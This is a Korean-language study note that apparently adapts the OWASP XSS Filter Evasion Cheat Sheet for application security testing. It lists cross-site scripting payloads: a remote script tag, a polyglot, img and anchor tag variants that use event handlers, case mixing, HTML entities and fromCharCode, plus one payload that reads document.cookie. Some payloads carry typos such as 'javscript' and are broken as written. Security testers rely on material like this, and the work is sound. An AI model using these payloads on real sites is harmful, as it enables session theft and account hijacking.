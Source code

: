 ## XSS Filter Evasion Cheat Sheet

---

본문은 어플리케이션 보안 테스트 중 `Cross-Site Script`취약점에 대한 가이드를 제공한다.

[XSS-Filter-Evasion-Cheatsheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet#)





## Basic XSS Test Without Filter Evasion

>아래 구문은 일반적인 `XSS` 자바스크립트 인젝션 구문이다, 또한 대부분이 막혀있으나 제일 먼저 이를 시도할것을 추천한다.
>
>cf) 모던웹에서는 따옴표를 쓰지 않아도 무방하다.
>
>```html
><script src=https:xxx.com></script>
>```
>
>



## XSS Locator (Polygot)

---

> 본 구문은 "polygot test XSS payload"내용이다.
>
> 해당 구문은 `html`, `script 문자열`, `javascript`, `url`등 다양한 컨텍스트에서 모두 사용될 수 있다.
>
> ```html
> javscript:/*--></title></style></textarea></sript></xmp>
> <svg/onload='+/"+/onmouseover=1/+/[*/[]/+alert(1)//'>
> ```



## Cheat Sheet

---

>**img 태그를 이용한 XSS**
>
>```html
><!-- img 태그를 이용한 XSS -->
><img src="javscript:alert('XSS')">
>
><!-- Quotes & Semicolon을 쓰지 않는 XSS -->
><img src=javscript:alert('XSS')>
>
><!-- 대소문자 필터링 XSS Attack vector -->
><img src=JaVaScRiPt:alert('XSS')>
>
><!-- HTML 엔터티를 이용한 XSS -->
><img src=javscript:alert(&quot;XSS&quot;)> 
>
><!-- 약한 강조를 이용한 난독화 XSS -->
><img src=`javacsript:alert('XSS')`>
>만일 쌍따옴표 또는 홑따옴표를 써야하는 경우에는 grave accent를 이용하여 자바스크립트 문자열을 인캡슐래이션 가능.
>-> 대부분의 XSS 필터들이 이걸 모르기 때문에 매우매우 유용함 
>
><!-- a 태그 변형 XSS -->
>\<a onmouseover="alert(document.cookie)"\>xxs link\</a\>
>`href` 특성을 skip하여 XXS실행 가능
>
><!-- img 태그 변형 XSS-->
><IMG """><SCRIPT>alert("XSS")</SCRIPT>"\>
>본 구문은 HTML태그 파싱을 매우 어렵게 만듬
>    
><!-- fromCharCode 응용 XSS-->
><IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
>어떠한 따옴표도 이용이 불가능한 경우, fromCharCode를 통해 문자열 생성 가능 -> document.cookie같은것.
>    
><!--SRC 도메인을 확인하는 필터를 통과하기 위한 기본 SRC 태그 -->
><IMG SRC=# onmouseover="alert('xxs')">
>본 구문은 대표적인 도메인 필터링을 우회할 수 있다. onmouseover 이벤트 대신 onblur, onclick과 같은 이벤트 또한 사용이 가능하다.
>    
><!-- 기본 SRC 비우기 -->
><IMG SRC= onmouseover="alert('xxs')">
>    
><!-- 의도적 에러 유발을 통한 XSS -->
><IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>
>
><!-- IMG 에러 & 경고창 띄우기 인코딩 버전 -->
><img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
>```
>
>